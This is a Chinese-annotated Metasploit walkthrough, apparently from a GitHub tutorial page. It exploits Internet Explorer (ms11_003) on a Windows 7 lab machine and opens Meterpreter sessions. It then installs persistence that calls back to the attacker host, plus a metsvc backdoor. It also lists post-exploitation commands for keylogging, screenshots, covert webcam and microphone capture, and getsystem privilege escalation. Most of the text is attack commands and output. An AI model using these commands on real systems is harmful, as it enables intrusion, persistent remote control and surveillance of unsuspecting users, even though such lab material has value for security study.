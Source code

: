 ```
msf5 exploit(windows/browser/ms11_003_ie_css_import) > sessions     # 查看会话
 
 Active sessions
 ===============
 
   Id  Name  Type                     Information             Connection
   --  ----  ----                     -----------             ----------
   1         meterpreter x64/windows  win7-PC\win7 @ WIN7-PC  192.168.72.135:8443 -> 192.168.72.137:49198 (192.168.72.137)
   2         meterpreter x64/windows  win7-PC\win7 @ WIN7-PC  192.168.72.135:8443 -> 192.168.72.137:49201 (192.168.72.137)
 
 msf5 exploit(windows/browser/ms11_003_ie_css_import) > sessions -i 1    # 进入第一个会话
 [*] Starting interaction with 1...
 
 meterpreter > sysinfo       # 查看系统信息，已经被入侵成功
 Computer        : WIN7-PC
 OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
 Architecture    : x64
 System Language : zh_CN
 Domain          : WORKGROUP
 Logged On Users : 1
 Meterpreter     : x64/windows
 meterpreter > run persistence -X -i 10 -p 5555 -r 192.168.72.135       # 设置开机自动上线
 meterpreter > run metsvc -A     # 获得系统权限
```

此时 win7 即使关闭浏览器也无法逃脱被控制

```
用户操作：Stdapi: User interface Commands（用户接口命令）
 
 enumdesktops    -->列出所有可访问的桌面和窗口站（窗体列表）
 getdesktop      -->得到当前的Meterpreter桌面
 
 idletime        -->返回秒远程用户已经闲置数量
 
 keyscan_dump    -->转储按键缓冲（下载键盘记录）
 keyscan_start   -->开始捕获击键（开始键盘记录）
 keyscan_stop    -->停止捕获击键（停止键盘记录）
 screenshot      -->抓取交互式桌面截图（当前操作界面截图一张）
 setdesktop      -->改变meterpreters当前桌面
 
 uictl           -->控制一些用户界面组件（获取键盘、鼠标控制权）
 使用uictl -h 查看帮助（打开/关闭，键盘/鼠标）
 
 PS：键盘记录注意点，先开始，后下载，再结束，否则会出错
 
 
 摄像头：Stdapi: Webcam Commands（摄像头命令）
 
 record_mic       -->X秒从默认的麦克风record_mic音频记录（音频录制）
 
 webcam_chat      -->开始视频聊天（视频，对方会有弹窗）
 
 webcam_list      -->单摄像头（查看摄像头列表）
 webcam_snap      -->采取快照从指定的摄像头（摄像头拍摄一张照片）
 
 webcam_stream    -->播放视频流从指定的摄像头（开启摄像头监控）
 
 
 其他命令操作
 
 getsystem        -->获取高权限
```